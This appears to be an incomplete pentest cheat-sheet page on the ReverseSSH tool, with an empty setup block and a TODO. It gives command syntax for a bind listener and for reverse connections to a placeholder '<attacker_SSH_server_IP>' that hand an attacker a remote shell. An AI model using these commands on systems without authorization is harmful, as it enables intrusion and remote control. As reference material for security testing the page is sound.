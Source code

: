 # ReverseSSH

## Setup

```

```

## Bind

Create a listening port for incoming connections.

```
> reverse-ssh [-v] -l -p <local_PORT>
```

## Reverse

TODO: Fill this info

```
> reverse-ssh [-p <PORT>] <attacker_SSH_server_IP>

> reverse-ssh [-p <PORT>] <username>@<attacker_SSH_server_IP>
```

```
> reverse-ssh [-p <PORT>] -b 0 <username>@<attacker_SSH_server_IP>
```

---
## References

- [Fahrj: ReverseSSH](https://github.com/Fahrj/reverse-ssh)
